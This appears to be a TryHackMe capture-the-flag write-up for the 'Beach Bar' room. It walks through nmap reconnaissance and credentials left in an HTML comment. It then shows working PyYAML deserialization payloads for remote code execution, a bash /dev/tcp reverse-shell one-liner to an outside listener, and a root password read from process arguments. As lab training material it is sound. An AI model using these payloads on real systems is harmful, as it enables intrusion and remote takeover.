









## Intro

Another boot2root, another beach bar with a jukebox that "accepts requests from anyone with a phone". The TryHackMe Beach Bar brief already tells you what to look for: a DJ who never logs out, a song queue that takes more than song titles, and a service down the boardwalk announcing something. All of it's true, and it all gets you flags.

**Room card**

| | |
| --- | --- |
| Category | Boot2Root |
| Difficulty | Easy |
| Points | 60 |
| Machine IP | `10.49.147.138` |
| Objectives | User flag, root flag |

**TL;DR - how to root Beach Bar**

1. View source on the login page to find the demo DJ credentials `dj / dj` (ticket BAR-7).
2. Use the DJ dashboard's playlist Import to trigger unsafe YAML deserialization in PyYAML and get RCE as `bartender`.
3. Grab the user flag at `/home/bartender/user.txt`.
4. Find the root password `SunsetSpritz2024!` in the `jukeboxd.py` process command line via `ps aux`.
5. Spawn a PTY, `su` to root, and grab `/root/root.txt`.

---

## Reconnaissance - Ping and Nmap Scan

Host is up - target is `10.49.147.138`. Quick ping first to confirm connectivity:

```console
$ ping 10.49.147.138
PING 10.49.147.138 (10.49.147.138) 56(84) bytes of data.
64 bytes from 10.49.147.138: icmp_seq=1 ttl=62 time=56.1 ms
64 bytes from 10.49.147.138: icmp_seq=2 ttl=62 time=51.4 ms
64 bytes from 10.49.147.138: icmp_seq=3 ttl=62 time=49.6 ms
64 bytes from 10.49.147.138: icmp_seq=4 ttl=62 time=57.7 ms
^C
--- 10.49.147.138 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3005ms
rtt min/avg/max/mdev = 49.553/53.691/57.668/3.309 ms
```

{: width="700" height="400" }

Then a service scan. Easy box, so `-sV -sC` is enough to start:

```console
$ nmap -sV -sC -oA byte-lotus 10.49.147.138
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-01 15:33 IST
Nmap scan report for 10.49.147.138
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 e9:e6:59:35:ba:85:65:1d:72:01:51:4b:e4:63:73:6f (ECDSA)
|_  256 43:e1:94:ab:ec:a3:04:0c:3a:48:49:21:fc:26:2b:fa (ED25519)
80/tcp open  http    Gunicorn
| http-title: Beach Bar // Sign in
|_Requested resource was /login
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.61 seconds
```

{: width="700" height="400" }

Two ports open and a clear OS fingerprint: Ubuntu Linux running behind a Gunicorn WSGI server.

| Port | Service | Notes |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 9.6p1 Ubuntu |
| 80/tcp | HTTP | Gunicorn - "Beach Bar // Sign in" |

The web server redirects `/` straight to `/login`. That's where the fun starts.

---

## Enumeration - Finding the DJ Credentials

### The Jukebox - Login Page

`http://10.49.147.138` bounces you straight to `/login` - "Beach Bar // Sign in". The app is the guest-experience build the night-shift developer shipped, and the room hint ("a DJ who never logs out") says the weak spot is the DJ side.

{: width="700" height="400" }

My first instinct was SQLi, but the usual practice comes before touching the login form: view source. And there it was, sitting in an HTML comment:

{: width="700" height="400" }

```html
<!-- staff note: the demo DJ login is still enabled for the soft opening.
     dj / dj  -- swap this before the season starts (ticket BAR-7) -->
```

Hardcoded demo creds left in the source, with a ticket number and everything. Exactly what you'd expect from a deadline build. `dj / dj` it is.

### The DJ Dashboard

Logged in, we land on the DJ dashboard - the "DJ never logs out" clue made concrete.

{: width="700" height="400" }

The page shows the live status:

- Signed in as `dj`
- The jukebox streaming live to the deck speakers
- `42` songs in queue
- `Sunset Session` - active set
- Stream status: `Live`

The header has four options: **Floor**, **Import**, **Export**, and **Sign out**. The interesting ones are Import/Export:

> Bring a set from another night: Export the current playlist as YAML, tweak it, and load it back via Import.

The Import section accepts a YAML playlist - either pasted or uploaded as a `.yml` file.

{: width="700" height="400" }

Export gives you the current set:

```yaml
# Beach Bar jukebox playlist export
playlist:
  name: Sunset Session
  vibe: golden hour
  tracks:
    - artist: Khruangbin
      title: Maria Tambien
    - artist: Men I Trust
      title: Show Me How
    - artist: Crumb
      title: Locket
```

An app that takes raw YAML from a user and loads it back is a classic red flag: unsafe YAML deserialization. If the backend parses this with Python's `yaml.load()`, we can instantiate arbitrary objects and call arbitrary functions.

As for the "service down the boardwalk quietly announcing something" - that's the separate stream daemon, `jukeboxd.py`. It stays quiet during the web phase; it does all the talking during privesc.

---

## Exploitation - User Flag via YAML Deserialization

### Unsafe YAML Deserialization

The Import page pastes our YAML straight into what smells like `yaml.load()`. Test payload - this tries to execute `id` on the server:

```yaml
!!python/object/apply:subprocess.check_output
- ["id"]
```

Paste it and hit import:

```console
Loaded playlist

b'uid=1001(bartender) gid=1001(bartender) groups=1001(bartender)\n'
```

The server executed our command and rendered the output - `subprocess.check_output(["id"])` ran server-side. PyYAML's unsafe load, confirmed. We're `bartender` (uid 1001), not even a web user.

### Reverse Shell

Now make it a shell. Listener on the attacker box:

```console
$ nc -lvnp 4444
```

And the payload - `os.system` gets us a clean reverse shell:

```yaml
!!python/object/apply:os.system
- "bash -c 'bash -i >& /dev/tcp/192.168.133.75/4444 0>&1'"
```

Paste it into Import, and the listener lights up:

```console
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.133.75] from (UNKNOWN) [10.49.147.138] 44742
bash: cannot set terminal process group (611): Inappropriate ioctl for device
bash: no job control in this shell
bartender@tryhackme-2404:/opt/beach-bar/webapp$
```

{: width="700" height="400" }

We're in as `bartender` on host `tryhackme-2404`, landing in `/opt/beach-bar/webapp` - the app directory.

### User Flag

`user.txt` is right there in bartender's home:

```console
bartender@tryhackme-2404:/home/bartender$ ls
user.txt
bartender@tryhackme-2404:/home/bartender$ cat user.txt
THM{...}
```

{: width="700" height="400" }

**Flag:** `THM{...}`

---

## Privilege Escalation - Root Flag via Leaked Password

### Enumeration

First reflex: `sudo -l`. Dead end - it wants bartender's password, which we don't have.

```console
bartender@tryhackme-2404:/home/bartender$ sudo -l
sudo: a terminal is required to read the password; either use the -S option to read from standard input or configure an askpass helper
sudo: a password is required
```

So flip to process inspection - anything running as root is worth staring at:

```console
bartender@tryhackme-2404:/home/bartender$ ps aux | grep root
root         610  0.0  0.2  20176 11684 ?        Ss   09:54   0:00 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
root         611  0.0  0.6  34276 24444 ?        Ss   09:54   0:00 /opt/beach-bar/venv/bin/python3 /opt/beach-bar/venv/bin/gunicorn -w 2 -b 0.0.0.0:80 --user bartender --group bartender app:app
```

### The Leaked Root Password

`jukeboxd.py` - the stream daemon, the service "down the boardwalk" - is running as **root** with its secret in plain sight on the command line: `--stream-pass SunsetSpritz2024!`. The boardwalk service wasn't announcing its stream. It was announcing the root password to anyone who runs `ps`.

First thought was hijacking the daemon - modify `jukeboxd.py` and let root run our code. Turned out to be unnecessary: the password was already out there, and it works for the box itself.

One catch: `su` needs a real terminal, and this shell has no job control. Spawn a PTY first:

```console
bartender@tryhackme-2404:/home/bartender$ python3 -c 'import pty; pty.spawn("/bin/bash")'
bartender@tryhackme-2404:/home/bartender$
```

Then `su` with the leaked password:

```console
bartender@tryhackme-2404:/home/bartender$ su
Password: SunsetSpritz2024!

root@tryhackme-2404:/home/bartender#
```

{: width="700" height="400" }

### Root Flag

```console
root@tryhackme-2404:/home/bartender# cat /root/root.txt
THM{...}
```

**Flag:** `THM{...}`

---

## Takeaways and Key Lessons

**What made Beach Bar solvable**

- **Read the room briefing and the page source.** The blurb isn't flavor text - "the jukebox takes requests from anyone with a phone" and a queue that "accepts a little more than song titles" literally means untrusted user input flows into something dangerous. And `dj / dj` sitting in an HTML comment skipped the entire credential attack phase - check the source before touching a login form.
- **Unsafe YAML deserialization is RCE.** PyYAML's `yaml.load()` allows arbitrary object instantiation - one `!!python/object/apply` tag away from `subprocess.check_output` and `os.system`. Never feed user input to it without a safe loader (`yaml.safe_load()`). This is the same class of bug as [insecure deserialization (OWASP A08:2021)](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/).
- **Secrets in process command lines are free loot.** `ps aux | grep root` exposed `--stream-pass SunsetSpritz2024!`, and that same string was the root password. Check running processes before you reach for exploit frameworks - the box might just hand you root.
- **Know how to upgrade a shell.** A reverse shell without job control can't run `su` cleanly - `python3 -c 'import pty; pty.spawn("/bin/bash")'` fixes that in one line.

**Common CVEs and references**

- PyYAML unsafe load: see the [PyYAML documentation](https://pyyaml.org/wiki/PyYAMLDocumentation) and the `yaml.safe_load()` recommendation.
- Reverse shell one-liners and the `bash -i >& /dev/tcp/` pattern: see [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodologies%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
- PTY spawn trick: `python3 -c 'import pty; pty.spawn("/bin/bash")'` - part of the standard [Linux privilege escalation checklist](https://gtfobins.github.io/).

Want more web auth failure cases? The [JWT Security Deep Dive]() covers the token side, and [Cryptography Fundamentals for Hackers]() has the math behind common crypto breaks.